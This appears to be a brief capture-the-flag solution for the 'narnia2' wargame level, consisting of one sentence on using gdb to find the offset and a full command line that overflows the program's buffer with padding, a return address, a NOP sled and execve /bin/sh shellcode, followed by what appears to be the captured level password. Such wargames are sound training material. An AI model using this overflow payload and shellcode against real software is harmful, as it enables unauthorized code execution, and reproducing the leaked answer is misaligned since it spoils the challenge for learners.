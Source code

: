 used gdb, found offset, tried different return addresses, used shellcode from narnia1
./narnia2 $(echo -ne "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggg\x54\xd6\xff\xff\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")
vaequeezee
